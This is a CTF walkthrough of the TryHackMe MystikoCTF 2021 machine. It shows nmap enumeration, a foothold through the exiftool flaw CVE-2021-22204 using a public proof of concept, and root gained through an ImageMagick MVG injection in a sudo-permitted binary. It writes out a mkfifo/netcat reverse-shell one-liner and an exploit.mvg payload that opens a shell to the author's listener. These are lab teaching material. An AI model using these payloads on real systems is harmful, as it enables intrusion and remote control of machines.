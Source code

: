 ```yaml
---
title: MystikoCTF - THM - Walkthrough
tags: web thm privesc web-exploitation privilege-escalation ImageMagick-vulnerability CVE-2021-22204 reverse-engineering nmap exploit-development binary-analysis
---
```


![photo_2021-02-10_22-58-30](https://user-images.githubusercontent.com/84577967/174065612-9a8249f1-005f-4ba3-a752-d4b1ed44df25.jpg){:.circle}

Date: 21<sup>st</sup> / 22<sup>nd</sup> November 2021

# Description

> This is my writeup for the recent CTF hosted by Mystiko, which was held on TryHackMe. I had a great time participating in the CTF and found it to be very challenging and enjoyable. I would like to express my gratitude to the Mystiko team for organizing such a fantastic event and for creating such a compelling and challenging machine.

- THM Link: [MystikoCTF2021](https://tryhackme.com/room/mystikoctf2021)

- Difficulty: <font size="3" color="orange">Medium</font>

Unfortunately, I did not have a lot of time to dedicate to the CTF, but I was still able to achieve a strong finish and share third place with `cryptonic007`.

# Enumeration

The CTF had 3 different webapps

> Only PIXEL, DEV01 and DEV02 are in scope for this CTF. Do NOT attack any other IP address or hostname.

As a first step in the process of identifying and analyzing the target system, it is a good idea to run `nmap`:

```bash
nmap -sCV 10.10.206.211 -vvv                                        
```

There are two open ports on the target: ports 22 (SSH) and 8080 (Nginx WebServer)

Let's dig into the webserver

![2021-11-22_16-15-23](https://user-images.githubusercontent.com/84577967/174065713-a0a47901-3b89-4414-a30e-02d3615dbe00.png)

Upon examining the web server, I found that it appears to be an image uploader. I opened the source code of the page to see if there were any hidden comments, but I did not find any. I also confirmed that the server is only accepting image files.

![2021-11-22_16-17-33](https://user-images.githubusercontent.com/84577967/174065741-f3cc5bfc-daf1-47f3-a4fd-2d14d9f6805e.png)

I uploaded an image and used Burp Suite to capture and analyze the traffic

![2021-11-22_16-21](https://user-images.githubusercontent.com/84577967/174065770-d9db02ce-0dc7-4446-b6f7-f514078ed2f4.png)

I attempted to manipulate the file extension and MIME type in various ways, but none of these methods seemed to have any effect. However, while reviewing the responses from the server, I noticed something interesting.

![2021-11-22_16-22](https://user-images.githubusercontent.com/84577967/174065788-51716dc6-0104-47b2-8582-22839af29029.png)

I discovered that there was a hidden HTML heading in the response that contained information about the picture I had uploaded, including the MIME type, size, and image dimensions. This heading also contained a strange value that appeared to be a version number, starting with `10.61` !

I suspected that this heading might be related to the `exiftool` tool, so I looked for any recent vulnerabilities in exiftool that I could potentially exploit. I came across `CVE-2021-22204`, which I had not previously had the opportunity to try.

# Foothold

I tried several different public CVEs in an attempt to find one that would be effective in this situation. After testing multiple options, I was finally able to identify a working exploit.

https://github.com/bilkoh/POC-CVE-2021-22204

With the working exploit in hand, I was able to use the following command line to create the malicious image:

![2021-11-22_16-52-54](https://user-images.githubusercontent.com/84577967/174065814-033ab445-5963-42a8-bed3-5bb71f6a41a4.png)

So the picture will download a file `shell.sh` from my webserver and execute it.

`shell.sh` : 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.95.202 9009 >/tmp/f
```

Let's upload the file 

![2021-11-21_13-29-19](https://user-images.githubusercontent.com/84577967/174065844-908a9f8d-be3d-4845-9b52-38593cb0fe39.png)

I set up a listener and then uploaded the malicious image to the server. As a result, I was able to successfully obtain a reverse shell.

![2021-11-22_16-56-09](https://user-images.githubusercontent.com/84577967/174065877-995382ea-7c6f-4bcb-999e-2fcc57128155.png)

Getting the first flag `local.txt` was pretty easy, the flag was in the home directory of our current user `pixel` and I was able to read it without any restrictions.

![2021-11-21_13-29-07](https://user-images.githubusercontent.com/84577967/174065895-f63a0342-78b3-413c-afe6-74034df064a5.png)

# Privilege Escalation

As a best practice, one of the first things I usually do after obtaining a reverse shell is to run the `sudo -l` command to check if there are any commands that I can execute using sudo.

![2021-11-21_13-30-34](https://user-images.githubusercontent.com/84577967/174065911-af8a4420-9d19-4ab2-8f98-74feca2b3ed2.png)

Perfect ! we have a binary called pixel . I copied this binary to my own machine in order to perform some reverse engineering and analysis.

![2021-11-21_13-31-02](https://user-images.githubusercontent.com/84577967/174065932-53d5f67c-92e4-4bf1-9ab0-20a30b8053ee.png)

I had to use ghidra, but I won't say much : nothing was interesting.

![2021-11-22_17-19-53](https://user-images.githubusercontent.com/84577967/174065960-2b860b8b-21c9-4215-8fc5-deff78ed1ef8.png)

I ran the binary on my own machine to performe some dynamic analysis.

![2021-11-21_13-31-10](https://user-images.githubusercontent.com/84577967/174065988-93c4886a-cd16-42d4-ae09-18656dc04771.png)

The binary appears to be an image toolkit created by the SIXER team. As part of my analysis, I chose to use the tool to convert an image to a PDF file and see what would happen.

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066023-b2b56f4d-0d32-4cf4-b132-57be2cb43797.png)

The `Generating PDF` line show us that the binary is using the `/usr/local/bin/convert` tool to convert the image to a PDF. I had recently worked with a 2016 exploit involving `convert`, so I quickly returned to the Pixel machine to check the version of convert that was being used.

![2021-11-21_13-33-01](https://user-images.githubusercontent.com/84577967/174066040-8cc05195-ad7b-4a72-915a-ee83e6899263.png)

I was pleased to discover that the version of convert being used on the Pixel machine was indeed vulnerable to the exploit. By searching for ImageMagick exploit online, I was able to find a number of articles and resources that provided more information about this vulnerability and demonstrated various methods for exploiting it.

I followed these steps to exploit it:

1) Go to `/tmp/` directory.

1) Create a new file `exploit.mvg`:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "10.2.95.202" "9009)'
pop graphic-context
```
![2021-11-21_13-27-19](https://user-images.githubusercontent.com/84577967/174066067-cb5331e8-00a6-48d7-a851-cbfd26c9fb04.png)

2) Set my listener on port 9009:

```
  nc -lvnp 9009
```
3) Run `sudo /usr/bin/pixel` and follow the steps as the image shows (instead of `x.jpg` enter `exploit.mvg`)

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066087-18504f00-3749-4129-90cc-5ab238b6514e.png)

4) Going back to my listener to check if I got a reverse shell:

![2021-11-21_13-35-30](https://user-images.githubusercontent.com/84577967/174066111-a6238dc3-d7b7-48a8-8e7e-474ade679153.png)

And yes ! I gained root access to the system and I was able to read the second flag `proof.txt`

![2021-11-22_17-34-28](https://user-images.githubusercontent.com/84577967/174066152-8befadde-2aea-4454-b8ca-e03a52150dc2.png)
